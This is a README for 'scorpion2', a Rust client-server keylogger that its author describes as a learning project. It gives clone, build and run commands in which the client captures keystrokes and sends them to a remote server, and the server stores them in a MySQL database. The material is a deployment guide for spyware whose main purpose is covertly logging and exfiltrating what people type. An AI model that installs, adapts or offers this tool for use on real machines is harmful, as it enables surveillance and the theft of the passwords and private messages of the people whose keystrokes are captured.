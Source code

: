 # scorpion2
A better client-server klogger, purpose of learning rust

### Instalation

`git clone https://github.com/drakegawain/scorpion2 ~/.scorpion2`

#### Use

On client side

`cargo run -- client -u <URL to send keys> -p <PORT> -i <ID of the machine> -s`

On server side

`cargo run -- server -u <URL to receive keys> -p <PORT>  -d <DATABASE url>`

#### Database

Set a schema like

`CREATE DATABASE text(
id VARCHAR(30),
date DATE,
text varchar(1000));`

to ensure db can catch the keys


### Install to path

Add this lines to bottom of .bashrc

`export SCORPION2_INSTALL = "$HOME/.scorpion2/target/release"`

And

`export PATH = $SCORPION2_INSTALL:$PATH`

### Build

Run 

`cd ~/.scorpion2
cargo build --release`

And thats it!

### Commands

##### Client

`scorpion2 client -u "127.0.0.1" -p 8000 -i "ths"`

##### Server

`scorpion2 server -u "127.0.0.1" -p 8000 -d "mysql://user:user@127.0.0.1/scorpion2"`

